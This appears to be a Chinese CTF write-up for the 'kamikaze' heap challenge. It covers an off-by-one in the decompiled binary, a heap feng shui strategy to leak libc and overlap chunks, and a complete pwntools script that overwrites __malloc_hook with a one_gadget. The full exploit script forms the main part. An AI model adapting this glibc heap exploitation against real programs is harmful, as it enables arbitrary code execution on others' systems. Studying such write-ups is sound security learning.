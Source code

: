 ```yaml
---
title: Kamikaze
date: 2018-10-20 23:37:37
tags: FengShui heap pwn
layout: default
---
```

heap fengshui
hackit ctf kamikaze
<!--more-->

# Start
Kamikaze做完之后我想Kamikaze......
感觉这题主要烦在利用难
做完之后收获挺大，堆风水思路很重要。。。

在风水先生的路上又前进了一步
#  分析
主要结构体
```arm
00000000
00000000 song            struc ; (sizeof=0x28, mappedto_6)
00000000 weight          dq ?
00000008 stanza          dq ?                    ; offset
00000010 next            dq ?                    ; offset
00000018 hook            dq ?
00000020 hook2           dq ?
00000028 song            ends
```

主要漏洞点
```arm
unsigned __int64 kamimaze()
{
  int i; // [rsp+Ch] [rbp-34h]
  int wei; // [rsp+10h] [rbp-30h]
  int seed; // [rsp+14h] [rbp-2Ch]
  song *ptr; // [rsp+18h] [rbp-28h]
  char buf; // [rsp+20h] [rbp-20h]
  unsigned __int64 v6; // [rsp+28h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  printf("Enter song weight: ");
  read(0, &buf, 4uLL);
  wei = atoi(&buf);
  ptr = song_list;
  if ( song_list )
  {
    while ( ptr->weight != wei )
    {
      if ( !ptr->next )
      {
        puts("Couldn't find the song");
        exit(0);
      }
      ptr = ptr->next;
    }
    printf("Enter seed: ", &buf);
    read(0, &buf, 4uLL);
    seed = atoi(&buf);
    if ( seed <= 1 || seed > 0xE )
      exit(0);
    for ( i = 0; i < strlen((const char *)&ptr->hook); ++i )// kamikaze off by one
      *((_BYTE *)&ptr->hook + i) ^= seed;
  }
  else
  {
    puts("You need to create a song first");
  }
  return __readfsqword(0x28u) ^ v6;
}
```

hook处用的是read，kamikaze处用的是strlen所以只要读满hook域然后用strlen就可以缩放size位
# 利用思路
* 只能使用fastbin....泄露不了libc
* 先用off by one 缩小topchunk 
* free一堆chunk进fast bin
* 使得topchunk<0x30
* 这时候会把fastbin里的chunk整合放入unsorted bin
* 泄露libc
* 如法炮制放大unsorted bin 造成overlap
* malloc完unsortedbin malloc topchunk之后利用overlap做uaf
* fastbin atk 写 __mallo_chook 
* free触发printerr

坑点:
* topchunk 最高字节恰好0x02用0x02去缩小(好巧)
* 链表结构常常做着做着被破坏。。
* leak的时候按照index而不是weight
* 为啥用的都是fgets，calloc...
* overlap的时候注意风水。。。（我tm调了一天。。）
* 记得先想好再去调。。。策略很重要

# EXP
```python
from pwn import *
def cmd(c):
	p.readuntil(">> ")
	p.sendline(str(c))
def add(weight,size,stanza,hook="".ljust(0x10,' ')):
	cmd(1)
	p.sendlineafter("Enter the weight of the song: ",str(weight))
	p.sendlineafter("Enter size of the stanza: ",str(size))
	p.sendlineafter("Enter the stanza: ",stanza)
	p.sendafter("Leave a short hook for it too: ",hook)
def edit(weight,stanza):
	cmd(2)
	p.sendlineafter("Enter song weight: ",str(weight))
	p.sendafter("Enter new stanza: ",stanza)
def free(weight):
	cmd(4)
	p.sendlineafter("Enter song weight: ",str(weight))
def show(idx):
	cmd(5)
	p.sendlineafter("Enter song index: ",str(idx))
def kamikaze(weight,seed=2):
	cmd(3)
	p.sendlineafter("Enter song weight: ",str(weight))
	p.sendlineafter("Enter seed: ",str(seed))
	
#context.log_level="debug"
p=process("./kamikaze")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(256,0x20,"")#head
add(1,0x70,"")
add(2,0x20,"")
free(1)
free(2)
add(3,0x70,"")
add(4,0x20,"","A"*0x10)
kamikaze(4)
for x in range(5,35):
	add(x,0x28,"")
add(36,0x70,"")
for x in range(5,35):
	free(x)
add(36,0x70,"")#0x0000555555757d70
add(37,0x70,"")

for x in range(5,29):
	add(x,0x28,"")

free(37)
free(28)

add(39,0x70,"")
add(40,0x28,"","C"*0x10)

kamikaze(40,4)
#                  top: 0x555555757de0 (size : 0x20) 
#       last_remainder: 0x555555757af0 (size : 0x360) 
#            unsortbin: 0x555555757af0 (size : 0x360)
#free(36)
#free(4)
#add(41,0x70,"")#0x0000555555757cf0
#add(42,0x28,p64(0xdeaddead))

add(43,0x58,"")
add(44,0x40,"")
add(45,0x70,"")

show(3)
p.readuntil("Weight: ")
base=int(p.readline(),16)-(0x7ffff7dd1b78-0x00007ffff7a0d000)
log.warning(hex(base))
libc.address=base
free(3)
add(46,0x28,"")
add(47,0x28,"")
add(48,0x28,"")
add(49,0x28,p64(0)+p64(0x21001))
add(50,0x60,"")
add(51,0x60,"")
add(52,0x60,"")
add(53,0x30,"")
free(50)
cmd(1)
p.sendlineafter("Enter the weight of the song: ",str(54))
p.sendlineafter("Enter size of the stanza: ",str(0x58))
p.sendafter("Enter the stanza: ","\x00"*0x48+p64(0x71)+p64(libc.symbols['__malloc_hook']-35))
free(46)
free(47)
one=base+0xf02a4

add(55,0x30,p64(0)+p64(0x0000000000020fa1))
add(55,0x30,"")
add(56,0x68,"")
add(57,0x68,"A"*19+p64(one))
free(0x39)
#gdb.attach(p)
p.interactive("nier>")

```

加注释是这辈子都不可能加注释的